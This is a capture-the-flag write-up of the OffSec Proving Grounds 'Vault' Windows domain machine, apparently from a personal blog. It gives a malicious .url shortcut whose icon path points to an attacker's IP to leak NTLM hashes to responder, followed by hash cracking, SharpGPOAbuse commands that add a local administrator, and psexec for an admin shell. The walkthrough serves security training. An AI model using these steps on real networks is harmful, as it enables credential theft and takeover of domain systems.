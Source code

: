 ```yaml
---
title: "Proving grounds Practice: Vault"
layout: post
date: 2023-08-12 12:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Windows
- Pg-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice windows machine writeup"
---
```


## Walkthrough on Youtube
[![youtube](/assets/images/CTF/Proving_Grounds/Vault/youtube.png)](https://youtu.be/JocbrhLXuss)

## NMAP
```sh
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-13 04:53:47Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
```

Domain name: `vault.offsec`

## SMB share
```sh
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DocumentsShare  Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

## Writing files to DocumentsShare

![smb doc share](/assets/images/CTF/Proving_Grounds/Vault/smb-doc-share.png)

## Obtain NTLM Hash via uploading URL file

Run `responder` as root to listed for events to capture the NTLM Hash.

```text
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.45.170\%USERNAME%.icon
IconIndex=1
```

IP address should be `responder IP`.

![Obtain NTLM](/assets/images/CTF/Proving_Grounds/Vault/NTLM.png)

**Crack the hash using john**

![crack the hash](/assets/images/CTF/Proving_Grounds/Vault/john-pass-crack.png)

**Connect to attacking machine using extracted credentials**

![Machine connect](/assets/images/CTF/Proving_Grounds/Vault/evil-rm-connect.png)

## Enumerate system user privileges

![User Privilege](/assets/images/CTF/Proving_Grounds/Vault/windows_priv.png)

## Privilege Escalation

Create a tmp directory in root directory and move [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to the attacking machine.

## Enumerate Group Policies

**Default Domain Policy**

```powershell
PS C:\tmp> Get-GPO -Name "Default Domain Policy"

DisplayName      : Default Domain Policy
DomainName       : vault.offsec
Owner            : VAULT\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 11/19/2021 12:50:33 AM
ModificationTime : 11/19/2021 2:00:32 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 4, SysVol Version: 4
WmiFilter        :
```

**Get GPPermission for anirudh**

```powershell
PS C:\tmp> Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetType User -TargetName anirudh

Trustee     : anirudh
TrusteeType : User
Permission  : GpoEditDeleteModifySecurity
Inherited   : False
```
`Permission  : GpoEditDeleteModifySecurity`

## Abuse Group Policy

[SharpGPOAbuse GitHub](https://github.com/FSecureLABS/SharpGPOAbuse)

Compile and download the binary to the attacking machine.

Download precompiled binary from [here](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master).

**Abuse vulnerable GPO to create new local admin to the attacking machine**

```powershell
PS C:\tmp> ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```

![GitHub](/assets/images/CTF/Proving_Grounds/Vault/gpo-abuse1.png)

Force update group policy `gpupdate /force`

**Check local group administrators list**

```powershell
PS C:\tmp> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------------------
Administrator
anirudh
The command completed successfully.
```

Use Psexec to get interactive administrator shell.

```sh
Usage:-
python3 psexec.py domain_name/username:password@IP
```

![GitHub](/assets/images/CTF/Proving_Grounds/Vault/psexec1.png)

`proof.txt` obtained.

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).